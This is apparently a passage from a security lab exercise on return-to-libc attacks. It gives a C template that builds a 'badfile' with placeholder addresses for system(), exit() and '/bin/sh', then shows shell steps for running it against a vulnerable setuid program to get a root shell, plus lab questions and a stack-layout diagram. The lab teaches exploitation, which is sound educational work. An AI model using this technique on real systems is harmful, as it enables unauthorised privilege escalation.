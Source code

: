 Create the badfile.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"
  *(long *) &buf[Y] = some address ;   //  system()
  *(long *) &buf[Z] = some address ;   //  exit()

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

You need to figure out the values for those addresses, as well as to find out where to store those addresses. If you incorrectly calculate the locations, your attack might not work.

After you finish the above program, compile and run it; this will generate the contents for “badfile”. Run the vulnerable program `retlib`. If your exploit is implemented correctly, when the function `bof` returns, it will return to the `system()` libc function, and execute `system("/bin/sh")`. If the vulnerable program is running with the root privilege, you can get the root shell at this point.

It should be noted that the `exit()` function is not very necessary for this attack; however, without this function, when `system()` returns, the program might crash, causing suspicions.

```sh
$ gcc -o exploit exploit.c
$ ./exploit       // create the badfile
$ ./retlib        // launch the attack by running the vulnerable program
# <---- You've got a root shell!
```

Questions.

- Please describe how you decide the values for X, Y and Z.
- After your attack is successful, change the file name of `retlib` to a different name, making sure that the length of the file names are different. For example, you can change it to `newretlib`. Repeat the attack (without changing the content of badfile). Is your attack successful or not?

solution:

The following is return-to-libc stack:

```text
<- stack grows this way
   addresses grow this way ->
------------------------------------------------------------------------------
| buffer fill-up | f1 | pop-ret | f1_arg | f2 | dmm | f2_arg1 | f2_arg2 ... 
------------------------------------------------------------------------------
                                    ^
                                    |
                                    - this int32 should overwrite return address
                                        of a vulnerable function
```
